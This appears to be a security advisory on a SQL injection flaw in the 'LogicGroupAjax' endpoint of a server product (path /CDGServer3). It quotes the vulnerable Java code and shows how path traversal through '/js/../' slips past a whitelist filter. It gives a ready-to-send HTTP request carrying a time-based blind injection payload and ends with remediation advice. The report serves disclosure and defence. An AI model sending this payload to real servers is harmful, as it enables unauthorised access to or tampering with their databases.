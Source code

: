 

![image-20250305231656909](./assets/image-20250305231656909.png)

![image-20250305232455250](./assets/image-20250305232455250.png)

# Vulnerability Report

## Vulnerability Type

SQL Injection

## Vulnerability Description

The `logicGroupName` parameter in the `LogicGroupAjax` interface is not properly validated and sanitized, leading to a SQL injection vulnerability. An attacker can craft a malicious `logicGroupName` parameter to execute arbitrary SQL queries, potentially accessing or modifying sensitive information in the database.

## FIlter Bypass

```java
public class RootSecurityFilter implements Filter {
    private List<String> whiteList = Arrays.asList("/index.jsp", "/index_en.jsp", "/index_tai.jsp", "/images/welcomebg.jpg", "/images/welcome_button_login1.jpg", "/images/welcome_button_login.jpg", "/images/welcome_button_help1.jpg", "/images/welcome_button_help.jpg", "/images/welcome_button_config1.jpg", "/images/welcome_button_config.jpg", "/images/zh/welcomebg.jpg", "/images/zh/welcome_button_login1.jpg", "/images/zh/welcome_button_login.jpg", "/images/zh/welcome_button_help1.jpg", "/images/zh/welcome_button_help.jpg", "/images/zh/welcome_button_config1.jpg", "/images/zh/welcome_button_config.jpg", "/images/eh/welcomebg.jpg", "/images/eh/welcome_button_login1.jpg", "/images/eh/welcome_button_login.jpg", "/images/eh/welcome_button_help1.jpg", "/images/eh/welcome_button_help.jpg", "/images/eh/welcome_button_config1.jpg", "/images/eh/welcome_button_config.jpg","/js");

    public RootSecurityFilter() {
    }

    public void init(FilterConfig filterConfig) throws ServletException {
    }

    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        HttpServletRequest httpRequest = (HttpServletRequest)request;
        HttpServletResponse httpResponse = (HttpServletResponse)response;
        String servletPath = httpRequest.getServletPath();
        if (this.whiteList.contains(servletPath)) {
            chain.doFilter(request, response);
        } else {
            httpResponse.sendError(403);
        }

    }

    public void destroy() {
    }
}
```

```java
	String logicGroupName = request.getParameter("logicGroupName");
	if (logicGroupName == null || "".equals(logicGroupName.trim())) {
		response.sendRedirect("../loginExpire.jsp");
		return;
	}
	String curpage = request.getParameter("curPage");
	FlowDao dao = new FlowDao();
	Flow flow = dao.getAppById(logicGroupName);
	if (flow == null) {
		response.sendRedirect("../loginExpire.jsp");
		return;
	}
	List<FlowDetail> flowDetails = dao.getAppDetailById(logicGroupName);
    String flowControlFlag = JEConfig.getValue("flowControlFlag");
	WatermarkControlService watermarkControlService = SpringContextUtil.getBean(WatermarkControlService.class);
//	WatermarkFlow watermarkFlow = watermarkControlService.getWatermarkFlowBylogicGroupName(logicGroupName);
```




## POC

An attacker can test the vulnerability using the following POC:

```
POST /CDGServer3/js/../LogicGroupAjax HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

command=isExist&logicGroupName=-1'waitfor delay '0:0:5'--
```

## Impact Scope

This vulnerability may affect all functionalities that use the `LogicGroupAjax` interface and allow user submission of the `logicGroupName` parameter.

## Remediation Suggestions

1. Strictly validate and sanitize the user input for the `logicGroupName` parameter to ensure it contains only legitimate values.
2. Use prepared statements to execute database queries to prevent SQL injection attacks.
3. Conduct regular security audits and code reviews to identify and remediate potential security vulnerabilities.
